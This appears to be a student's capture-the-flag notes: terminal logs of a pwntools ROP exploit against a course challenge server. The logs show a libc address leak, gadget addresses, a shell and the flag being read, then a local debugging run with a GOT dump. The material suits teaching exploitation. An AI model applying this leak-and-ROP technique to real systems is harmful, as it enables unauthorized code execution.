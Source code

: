 

Fuck this I win:
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_3.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1343: Done
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:307: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
b'\n'
/home/kali/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] pÙ)5Ù\x7f
[*] gots leak - 0x7fd93529d970
[*] libcBase - 0x7fd93521a000
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:329: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
[*] popRDX - 0x7fd935333431
[*] popRAX - 0x7fd935250174
[*] syscall - 0x7fd93523c84d
[*] Switching to interactive mode

$ whoami
pwn
$ pwd
/home/pwn
$ ls
flag.txt
rop
$ cat flag.txt
flag{sodapop_shop}
[*] Got EOF while reading in interactive

```


```
└─$ python3 RPP_Pwn_3.py
[+] Starting local process '/bin/bash': pid 193237
[*] P°çáµ\x7f
[*] puts leak - 0xa7fb5e1e7b050
[*] Switching to interactive mode

Program received signal SIGSEGV, Segmentation fault.
0x00007ffc15109200 in ?? ()
gef➤  $ got

GOT protection: Partial RelRO | GOT functions: 5
[0x601018] puts@GLIBC_2.2.5  →  0x7fb5e1e7bb00
[0x601020] __libc_start_main@GLIBC_2.2.5  →  0x7fb5e1e2d700
[0x601028] __gmon_start__  →  0x4004e6
[0x601030] gets@GLIBC_2.2.5  →  0x7fb5e1e7b050
[0x601038] setvbuf@GLIBC_2.2.5  →  0x7fb5e1e7c2e0 
```
